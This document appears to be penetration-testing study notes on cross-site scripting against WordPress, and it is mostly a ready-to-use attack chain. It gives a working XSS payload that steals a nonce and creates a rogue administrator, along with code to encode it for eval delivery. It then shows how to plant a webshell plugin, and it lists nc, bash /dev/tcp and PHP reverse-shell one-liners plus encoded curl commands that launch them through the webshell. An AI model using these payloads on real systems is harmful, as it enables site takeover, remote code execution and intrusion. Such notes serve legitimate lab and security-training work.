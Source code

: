 # Cross Side Scripting

## Vulnerabilities

* Stored XSS: stored in DB; attack all users
* Reflected XSS: put script in crafted requests or links, attack a sinlge user
* DOM-based XSS: inject script into DOM and execute the exploit; Either stored or reflected

 With access to the DOM, you can redirect login forms, extract passwords, and steal session cookies.

 Look for input fields and try common characters `< > ' " { } ;`.

 URL encoding = % encoding or ascii e.g. %20, %21
 HTML encoding = special `<` or`>` char encoding e.g. `&lt;`,`&gt;`

## Basic Exploit

```html
User-Agent: <script>alert(42)</script>
```

Login to WP verify XSS

`http://target.wordpress.com/wp-login.php`

## Privilege Escalation by XSS on WP Instance

Source:

* Exploit `https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/`
* JS Encoding `https://eve.gd/2007/05/23/string-fromcharcode-encoder/`
* URL Encoding `https://www.url-encode-decode.com/`

The script attacks the visitor plugin of WP. It exploit an XSS within the User-Agent header.The Code first requests a nonce using AJAX and then creates a new WP administrator "attacker" with "attackerpass". This payload has to be minified and encoded to be passed to the User-Agent header.

```js
// steal the nonce first
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
// then create a WP admin user
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

First, the JavaScript Payload has to be minified into a oneliner and encoded. We can use `https://jscompress.com` or `https://javascript-minifier.com`.

Next, the JS Encoding function converts every char into UTF-16 integer using `charCodeAt` and concate it with a comma. e.g. 118,97,...

Alternatively we can use a handy online JS Encoding service `https://eve.gd/2007/05/23/string-fromcharcode-encoder/` that does the job. Or we can use an online URL encoding service `https://www.url-encode-decode.com/`.

```js
function encode_to_javascript(string) {
    var input = string
    var output = '';
    for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }
    return output;
}
        
let encoded = encode_to_javascript('insert_minified_javascript_here')
console.log(encoded)
```

Finally, we can decode the integers on-demand in the script tag using `String.fromCharCode` and execute the script with `eval`.

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(97,108,101,114,116,40,39,53,48,39,41,59))</script>" --proxy 127.0.0.1:8080
```

## Inplant Web shell on WP Instance

* Webshell WP-Plugin `https://github.com/p0dalirius/Wordpress-webshell-plugin/blob/master/README.md`
* Login as Admin
* Navigate to Plugins
* Select "Add New" or
* Select "Plugin Editor"
* Select "Activate" Webshell

Download Webshell from Github and install it. Go to Plugin Editor remove the illigal `die()` from the plugin and update it. Activate the plugin to deploy Webshell. Then run a Webshell test with the shell commend `id`.  

```bash
curl -X POST 'target.net/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
```

## Upgrade to Reverse shell on WP Instance

* Get Reverse Shell e.g. nc + bash
* URL Encoding `https://www.url-encode-decode.com/`
* Start nc listener
* Run shell command to upgrade to reverse shell

NC Reverse Shell

```bash
nc -nvlp PORT
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT > /tmp/f
```

Bash Reverse Shell

```bash
bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"
```

PHP Reverse Shell

```php
php -r '$sock=fsockopen("IP",PORT);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

Spawn Reverse Shell

```bash
# NC
curl -X POST 'offsecwp/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff+%7C+%2Fbin%2Fsh+-i+2%3E%261+%7C+nc+IP+PORT+%3E+%2Ftmp%2Ff"
# PHP
curl -X POST 'offsecwp/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=php%20-r%20%27%24sock%3Dfsockopen(%22IP%22%2CPORT)%3B%24proc%3Dproc_open(%22%2Fbin%2Fsh%20-i%22%2C%20array(0%3D%3E%24sock%2C%201%3D%3E%24sock%2C%202%3D%3E%24sock)%2C%24pipes)%3B%27
```

Upgrade to Bash

```bash
listening on [any] PORT ...
connect to [IP] 
bash -i
```
